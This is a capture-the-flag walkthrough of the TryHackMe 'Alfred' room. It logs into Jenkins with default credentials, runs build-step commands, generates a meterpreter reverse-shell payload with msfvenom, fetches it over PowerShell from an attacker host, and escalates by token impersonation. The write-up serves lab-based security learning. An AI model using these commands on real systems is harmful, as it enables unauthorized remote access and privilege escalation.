 # TryHackMe - Alfred
---

## Enum
Initially, when enumerating for open ports we can see that the ports 80, 8080 and 3389 are open. 
On port 8080 we can see that there's an automation server running which is called "Jenkins" (https://www.jenkins.io/).

## Weak creds
This sever has a login page on the index page:
![test](https://github.com/MarkSeliter/Writeups/img/Pasted\ image\ 20210827190250.png)

The credentials are: `admin:admin` 

# Exploiting Jenkins
When enumerating the server, I notice that I can run commands to the server by entering them to the projects and running the project.
The process for runnign commands on the server is as follows: Jenkins -> project -> Configure -> "Build" tab -> enter command -> apply/ save -> Build Now.
![](/img/Pasted image 20210827190250.png)

# Initial access
I generated a meterpreter payload and transfered it to the server using powershell.
msfvenom:
```txt
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -a x86 lhost=10.10.218.77 lport=4444 -f exe -o met.exe
```
powershell download:
```txt
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.218.77:8888/met.exe', 'C:\Program Files (x86)\Jenkins\workspace\project\met.exe')"
```

![](/img/Pasted image 20210828114210.png)

Then just running "met.exe" using the same misconfiguration.

# User flag
![](/img/Pasted image 20210828115051.png)

# PrivEsc
When running whoami /priv we can see that we have some interesting priviliges like debug and SetImpersonate:
![](/img/Pasted image 20210828115240.png)

We'll be using the "incognito" module from metasploit in order to leverage this.
`meterpreter> load incognito`

Then we list what tokens we can impersonate:
`list_tokens -u/-g`

In this case we see that we can impersonate `BUILTIN\Administrators`. So we'll impersonate that token:
![](img/Pasted image 20210828115908.png)
(if shell commands dont work then migrate to a system process).

# Root flag
![](/img/Pasted image 20210828120047.png)
